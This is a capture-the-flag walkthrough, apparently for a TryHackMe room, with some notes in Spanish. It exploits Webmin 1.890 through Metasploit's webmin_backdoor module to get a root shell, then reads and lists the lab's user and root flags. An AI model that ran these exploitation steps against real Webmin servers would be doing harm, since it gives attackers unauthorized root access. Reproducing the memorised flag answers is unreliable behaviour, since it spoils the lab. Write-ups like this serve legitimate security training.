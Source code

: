 ```yaml
---
Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool.
---
```


### rustscan

> 10000/tcp open  http    syn-ack MiniServ 1.890 (Webmin httpd)

### metasploit

```
msfconsole -q
```

> There are several exploits that will require valid credentials, that we don’t have. Let’s use the webmin_backdoor exploit, which does not require credentials. 

```
use 5
```

```
show options
```
*Now, let’s set up a couple of mandatory variables, and run the exploit. *

> SSL **Es el acrónimo de Secure Sockets Layer, capa de sockets seguros**. Protocolo para navegadores web y servidores que permite la autenticación, encriptación y desencriptación de datos enviados a través de Internet.
```
set rhost *machine-ip*
```

```
set ssl true
```

```
set rport 10000
```

```
set lhost *vpn-ip*
```

```
run
```

*This exploit directly gives us a privileged shell and we don’t even need a privesc*
```root
whoami
```

```
which python
```

```
python -c "import pty;pty.spawn('/bin/bash')"
```

> root@source:/usr/share/webmin/# 

```
ls -l /home
```

```
cat /home/dark/user.txt
```

==THM{SUPPLY_CHAIN_COMPROMISE}==

```
cat /root/root.txt
```

==THM{UPDATE_YOUR_INSTALL}==

> Se denomina Supply Chain o cadena de abastecimiento al proceso que se comprende desde la realización de un pedido por parte del cliente, hasta que el producto o servicio ha sido entregado


- user.txt *THM{SUPPLY_CHAIN_COMPROMISE}*
- root.txt *THM{UPDATE_YOUR_INSTALL}*

